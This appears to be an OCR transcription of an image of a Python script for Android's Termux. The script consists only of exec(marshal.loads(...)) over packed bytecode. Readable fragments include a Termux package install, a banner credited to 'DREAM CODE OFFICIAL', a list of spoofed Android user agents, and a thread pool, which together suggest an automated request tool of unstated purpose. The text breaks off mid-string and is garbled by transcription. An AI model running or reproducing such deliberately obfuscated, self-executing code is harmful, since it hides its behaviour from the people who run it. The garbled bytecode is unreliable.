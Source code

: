 exec(marshal.loads(b'\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00@\x00\x00\x00s\xc0\x01\x00\x00d\x00d\x01l\x00Z\x00d\x00d\x01l\x01Z\x01d\x00d\x01l\x02Z\x02d\x00d\x01l\x03Z\x03d\x00d\x01l\x04Z\x04d\x00d\x01l\x05Z\x05d\x00d\x01l\x06Z\x06d\x00d\x01l\x00Z\x00d\x00d\x01l\x07Z\x07d\x00d\x02l\x08m\tZ\n\x01\x00d\x00d\x03l\x0bm\x0cZ\x0c\x01\x00d\x00d\x04l\rm\x0eZ\x0e\x01\x00d\x00d\x05l\rm\x0fZ\x0f\x01\x00d\x00d\x06l\rm\x10Z\x10\x01\x00d\x00d\x07l\rm\x11Z\x11\x01\x00d\x00d\x08l\rm\x12Z\x12\x01\x00d\x00d\tl\x13m\x14Z\x14\x01\x00d\x00d\nl\x15m\x16Z\x17\x01\x00e\x18e\x01j\x19d\x0b\x83\x02Z\x1ae\x03j\x1bg\x00d\x0c\xa2\x01e\x1ae\x03j\x1cd\r\x8d\x03Z\x1de\x1a\xa0\x1e\xa1\x00\x01\x00e\x1dd\x00k\x03rxe\x01\xa0\x1fd\x0e\xa1\x01\x01\x00e\x0c\xa0 d\x0f\xa1\x01Z!g\x00Z"g\x00Z#d\x00a$d\x00a%d\x00a&d\x00a\'d\x00a(d\x00a)g\x00d\x10\xa2\x01Z*g\x00d\x10\xa2\x01Z+d\x11d\x12\x84\x00Z,d\x13d\x14\x84\x00Z-d\x15d\x16\x84\x00Z.d\x17d\x18\x84\x00Z/d\x19d\x1a\x84\x00Z0d\x1bd\x1c\x84\x00Z1d\x1dd\x1e\x84\x00Z2d\x1fd \x84\x00Z3d!d"\x84\x00Z4e5d#k\x02r\xdee\ne\x04\xa06d$\xa1\x01j7d%\x83\x02Z8e8\xa09d&\xa1\x01j7d\'k\x02r\xd3e,\x83\x00\x01\x00d\x01S\x00e\x01\xa0\x1fd(\xa1\x01\x01\x00e:d)\x83\x01\x01\x00d\x01S\x00d\x01S\x00)*\xe9\x00\x00\x00\x00N)\x01\xda\rBeautifulSoup)\x01\xda\x05Align)\x01\xda\x08Progress)\x01\xda\tBarColumn)\x01\xda\nTextColumn)\x01\xda\rSpinnerColumn)\x01\xda\x11TimeElapsedColumn)\x01\xda\x04Tree)\x01\xda\x12ThreadPoolExecutor\xda\x01w)\x03Z\x04dpkgz\x02-sz\nplay-audio)\x02\xda\x06stdout\xda\x06stderrz\x16pkg install play-audioa\xba\x01\x00\x00 _______  __    _  _______  _______  _______  _______\n|       ||  |  | ||   _   ||       ||       ||       |\n|  _____||   |_| ||  |_|  ||    _  ||    ___||   _   |\n| |_____ |       ||       ||   |_| ||   | __ |  | |  |\n|_____  ||  _    ||       ||    ___||   ||  ||  |_|  |\n _____| || | |   ||   _   ||   |    |   |_| ||       |\n|_______||_|  |__||__| |__||___|    |_______||_______|\n    > Powered By DREAM CODE OFFICIAL\n    > Auth SPTTY CHAN)\x05z\x99Mozilla/5.0 (Linux; U; Android 2.3.4; pt-pt; SonyEricssonLT18a Build/4.0.1.A.0.266) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1z\x88Mozilla/5.0 (Linux; U; Android 4.2.1; ru-ru; 9930i Build/JOP40D) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Mobile Safari/534.30z\x83Mozilla/5.0 (Linux; U; Android 2.3.4; ru-ru; MID Build/GRJ22) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1z\x8aMozilla/5.0 (Linux; U; Android 4.3; en-us; ASUS_T00J Build/JSS15Q) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Mobile Safari/534.30z\x9eMozilla/5.0 (Linux; U; Android 4.2.2; ru-ru; Fly IQ4404 Build/JDQ39) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Mobile Safari/534.30 YandexSearch/7.16c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x08\x00\x00\x00C\x00\x00\x00s\xb4\x00\x00\x00t\x00\xa0\x01d\x01\xa1\x01\x01\x00t\x00\xa0\x02d\x02\xa1\x01\x01\x00t\x03\xa0\x04d\x03\xa1\x01\x01\x00g\x00d\x04\xa2\x01}\x00|\x00D\x00]\x13}\x01t\x05\xa0\x06t\x07\xa0\x08d\x05|\x01\x9b\x00d\x06\x9d\x03\xa1\x01\xa1\x01\x01\x00t\x03\xa0\x04d\x07\xa1\x01\x01\x00q\x15t\x03\xa0\x04d\x08\xa1\x01\x01\x00z\x1et\td\td\n\x83\x02\xa0\n\xa1\x00}\x02d\x0b|\x02v\x00r@t\x0b\x83\x00\x01\x00W\x00d\x00S\x00d\x0c|\x02v\x00rJt\x0c\x83\x00\x01\x00W\x00d\x00S\x00W\x00d\x00S\x00\x04\x00t\ryY\x01\x00\x01\x00\x01\x00t\x0b\x83\x00\x01\x00Y\x00d\x00S\x00w\x00)\rN\xda\x05clearz\x14play-audio sound.mp3\xe9\x02\x00\x00\x00)\x1c\xfa\x14.^7YGB&&&&&&&&BGY7^.\xfa\x1e.~YB&@@@@@@@@@@@@@@@@@@@@&BY~.\xfa$:J#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@#J:\xfa(7#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@#7\xfa,Y@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@Y\xfa0?@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@?\xfa4.#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@#.\xfa6^@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@^\xfa8^@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@^\xfa:.@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@.z:G@@@&BPPB@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@#PPG&@@@@@@@@@@@@Gz<:@@@^ ^J?. Y@@@@@&@@@@@@&&@@@@@@@@&@@@@P  !?~